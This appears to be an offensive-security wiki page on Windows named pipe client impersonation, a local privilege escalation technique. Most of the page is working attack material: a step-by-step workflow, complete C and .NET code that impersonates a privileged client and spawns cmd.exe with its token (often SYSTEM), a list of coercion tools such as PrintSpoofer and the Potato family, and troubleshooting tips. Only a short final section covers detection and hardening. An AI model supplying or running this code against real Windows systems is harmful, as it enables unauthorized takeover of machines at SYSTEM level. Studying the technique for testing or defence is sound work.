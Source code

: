 # Named Pipe Client Impersonation

Named Pipe client impersonation is a local privilege escalation primitive that lets a named-pipe server thread adopt the security context of a client that connects to it. In practice, an attacker who can run code with SeImpersonatePrivilege can coerce a privileged client (e.g., a SYSTEM service) to connect to an attacker-controlled pipe, call ImpersonateNamedPipeClient, duplicate the resulting token into a primary token, and spawn a process as the client (often NT AUTHORITY\SYSTEM).

This page focuses on the core technique. For end-to-end exploit chains that coerce SYSTEM to your pipe, see the Potato family pages referenced below.

## TL;DR
- Create a named pipe: \\.\pipe\<random> and wait for a connection.
- Make a privileged component connect to it (spooler/DCOM/EFSRPC/etc.).
- Read at least one message from the pipe, then call ImpersonateNamedPipeClient.
- Open the impersonation token from the current thread, DuplicateTokenEx(TokenPrimary), and CreateProcessWithTokenW/CreateProcessAsUser to get a SYSTEM process.

## Requirements and key APIs
- Privileges typically needed by the calling process/thread:
  - SeImpersonatePrivilege to successfully impersonate a connecting client and to use CreateProcessWithTokenW.
  - Alternatively, after impersonating SYSTEM, you can use CreateProcessAsUser, which may require SeAssignPrimaryTokenPrivilege and SeIncreaseQuotaPrivilege (these are satisfied when you’re impersonating SYSTEM).
- Core APIs used:
  - CreateNamedPipe / ConnectNamedPipe
  - ReadFile/WriteFile (must read at least one message before impersonation)
  - ImpersonateNamedPipeClient and RevertToSelf
  - OpenThreadToken, DuplicateTokenEx(TokenPrimary)
  - CreateProcessWithTokenW or CreateProcessAsUser
- Impersonation level: to perform useful actions locally, the client must allow SecurityImpersonation (default for many local RPC/named-pipe clients). Clients can lower this with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION when opening the pipe.

## Minimal Win32 workflow (C)
```c
// Minimal skeleton (no error handling hardening for brevity)
#include <windows.h>
#include <stdio.h>

int main(void) {
    LPCSTR pipe = "\\\\.\\pipe\\evil";
    HANDLE hPipe = CreateNamedPipeA(
        pipe,
        PIPE_ACCESS_DUPLEX,
        PIPE_TYPE_MESSAGE | PIPE_READMODE_MESSAGE | PIPE_WAIT,
        1, 0, 0, 0, NULL);

    if (hPipe == INVALID_HANDLE_VALUE) return 1;

    // Wait for privileged client to connect (see Triggers section)
    if (!ConnectNamedPipe(hPipe, NULL)) return 2;

    // Read at least one message before impersonation
    char buf[4]; DWORD rb = 0; ReadFile(hPipe, buf, sizeof(buf), &rb, NULL);

    // Impersonate the last message sender
    if (!ImpersonateNamedPipeClient(hPipe)) return 3; // ERROR_CANNOT_IMPERSONATE==1368

    // Extract and duplicate the impersonation token into a primary token
    HANDLE impTok = NULL, priTok = NULL;
    if (!OpenThreadToken(GetCurrentThread(), TOKEN_ALL_ACCESS, FALSE, &impTok)) return 4;
    if (!DuplicateTokenEx(impTok, TOKEN_ALL_ACCESS, NULL, SecurityImpersonation, TokenPrimary, &priTok)) return 5;

    // Spawn as the client (often SYSTEM). CreateProcessWithTokenW requires SeImpersonatePrivilege.
    STARTUPINFOW si = { .cb = sizeof(si) }; PROCESS_INFORMATION pi = {0};
    if (!CreateProcessWithTokenW(priTok, LOGON_NETCREDENTIALS_ONLY,
                                 L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                                 0, NULL, NULL, &si, &pi)) {
        // Fallback: CreateProcessAsUser after you already impersonated SYSTEM
        CreateProcessAsUserW(priTok, L"C\\\\Windows\\\\System32\\\\cmd.exe", NULL,
                             NULL, NULL, FALSE, 0, NULL, NULL, &si, &pi);
    }

    RevertToSelf(); // Restore original context
    return 0;
}
```
Notes:
- If ImpersonateNamedPipeClient returns ERROR_CANNOT_IMPERSONATE (1368), ensure you read from the pipe first and that the client didn’t restrict impersonation to Identification level.
- Prefer DuplicateTokenEx with SecurityImpersonation and TokenPrimary to create a primary token suitable for process creation.

## .NET quick example
In .NET, NamedPipeServerStream can impersonate via RunAsClient. Once impersonating, duplicate the thread token and create a process.
```csharp
using System; using System.IO.Pipes; using System.Runtime.InteropServices; using System.Diagnostics;
class P {
  [DllImport("advapi32", SetLastError=true)] static extern bool OpenThreadToken(IntPtr t, uint a, bool o, out IntPtr h);
  [DllImport("advapi32", SetLastError=true)] static extern bool DuplicateTokenEx(IntPtr e, uint a, IntPtr sd, int il, int tt, out IntPtr p);
  [DllImport("advapi32", SetLastError=true, CharSet=CharSet.Unicode)] static extern bool CreateProcessWithTokenW(IntPtr hTok, int f, string app, string cmd, int c, IntPtr env, string cwd, ref ProcessStartInfo si, out Process pi);
  static void Main(){
    using var s = new NamedPipeServerStream("evil", PipeDirection.InOut, 1);
    s.WaitForConnection();
    // Ensure client sent something so the token is available
    s.RunAsClient(() => {
      IntPtr t; if(!OpenThreadToken(Process.GetCurrentProcess().Handle, 0xF01FF, false, out t)) return; // TOKEN_ALL_ACCESS
      IntPtr p; if(!DuplicateTokenEx(t, 0xF01FF, IntPtr.Zero, 2, 1, out p)) return; // SecurityImpersonation, TokenPrimary
      var psi = new ProcessStartInfo("C\\Windows\\System32\\cmd.exe");
      Process pi; CreateProcessWithTokenW(p, 2, null, null, 0, IntPtr.Zero, null, ref psi, out pi);
    });
  }
}
```

## Common triggers/coercions to get SYSTEM to your pipe
These techniques coerce privileged services to connect to your named pipe so you can impersonate them:
- Print Spooler RPC trigger (PrintSpoofer)
- DCOM activation/NTLM reflection variants (RoguePotato/JuicyPotato[NG], GodPotato)
- EFSRPC pipes (EfsPotato/SharpEfsPotato)

See detailed usage and compatibility here:

-
[[roguepotato-and-printspoofer.md]]
-
[[juicypotato.md]]

If you just need a full example of crafting the pipe and impersonating to spawn SYSTEM from a service trigger, see:

-
[[from-high-integrity-to-system-with-name-pipes.md]]
-
[[service-triggers.md]]

## Troubleshooting and gotchas
- You must read at least one message from the pipe before calling ImpersonateNamedPipeClient; otherwise you’ll get ERROR_CANNOT_IMPERSONATE (1368).
- If the client connects with SECURITY_SQOS_PRESENT | SECURITY_IDENTIFICATION, the server cannot fully impersonate; check the token’s impersonation level via GetTokenInformation(TokenImpersonationLevel).
- CreateProcessWithTokenW requires SeImpersonatePrivilege on the caller. If that fails with ERROR_PRIVILEGE_NOT_HELD (1314), use CreateProcessAsUser after you already impersonated SYSTEM.
- Ensure your pipe’s security descriptor allows the target service to connect if you harden it; by default, pipes under \\.\pipe are accessible according to the server’s DACL.

## Detection and hardening
- Monitor named pipe creation and connections. Sysmon Event IDs 17 (Pipe Created) and 18 (Pipe Connected) are useful to baseline legitimate pipe names and catch unusual, random-looking pipes preceding token-manipulation events.
- Look for sequences: process creates a pipe, a SYSTEM service connects, then the creating process spawns a child as SYSTEM.
- Reduce exposure by removing SeImpersonatePrivilege from nonessential service accounts and avoiding unnecessary service logons with high privileges.
- Defensive development: when connecting to untrusted named pipes, specify SECURITY_SQOS_PRESENT with SECURITY_IDENTIFICATION to prevent servers from fully impersonating the client unless necessary.

## References
- Windows: ImpersonateNamedPipeClient documentation (impersonation requirements and behavior). https://learn.microsoft.com/en-us/windows/win32/api/namedpipeapi/nf-namedpipeapi-impersonatenamedpipeclient
- ired.team: Windows named pipes privilege escalation (walkthrough and code examples). https://ired.team/offensive-security/privilege-escalation/windows-namedpipes-privilege-escalation

